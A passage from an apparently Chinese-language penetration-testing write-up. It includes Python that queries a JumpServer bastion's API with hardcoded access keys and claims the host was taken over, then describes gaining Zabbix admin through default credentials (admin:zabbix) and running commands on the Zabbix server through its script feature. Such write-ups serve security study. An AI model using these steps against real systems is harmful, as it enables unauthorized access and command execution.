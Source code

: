     response = requests.get(url, auth=auth, headers=headers)  
    print(response.text)

def get_assets_assets(jms_url, auth):  
    url = jms_url + '/api/v1/assets/assets/?offset=0&limit=15&display=1&draw=1'  
    gmt_form = '%a, %d %b %Y %H:%M:%S GMT'  
    headers = {  
        'Accept': 'application/json',  
        'X-JMS-ORG': '00000000-0000-0000-0000-000000000002',  
        'Date': datetime.datetime.utcnow().strftime(gmt_form)  
    }

    response = requests.get(url, auth=auth, headers=headers)  
    print(response.text)

if __name__ == '__main__':  
    jms_url = 'http://192.168.21.166'  
    KeyID = '75ed41cf-c41d-4117-a892-da9c76698d26'  
    SecretID = 'ce3cdec3-df9e-439a-8824-2cefe15ec95f'

    auth = get_auth(KeyID, SecretID)  
    get_task_log(jms_url, auth)  
    # get_assets_assets(jms_url, auth)

`

脚本可以批量执行命令，jumpserver自身也在被管理清单中，至此成功拿下jumpserver堡垒机。

Roc木木日站唯细不破，名言众多，今日分享比较应景的一则：

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/3/066761d6-4128-45d0-abbd-e4f8374cb1ba.png?raw=true)

kangkangの攻击记录
-------------

### 0x01 获取Zabbix后台权限

一次项目，对部分 ip 进行了全端口扫描，发现一个非常见端口的 apache 页面。

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/3/c147cf05-8bf2-4bd2-822a-5f8fd1061f9a.png?raw=true)

目录扫描探测到了zabbix目录，找到管理后台。  

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/3/ae79120a-7c4d-4c2c-8f25-719182350088.png?raw=true)

默认密码 admin:zabbix，成功登陆。

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/3/d78281cc-7186-4105-ac0c-33e5d6bcaaac.png?raw=true)
  

### 0x02 获取zabbix服务器权限

在 Zabbix Web 上添加脚本，“执行在”选项可根据需求选择，“执行在 Zabbix 服务器” 不需要 开启 EnableRemoteCommands 参数，所以一般控制 Zabbix Web 后可通过该方式在 Zabbix Server 上执行命令拿到服务器权限。
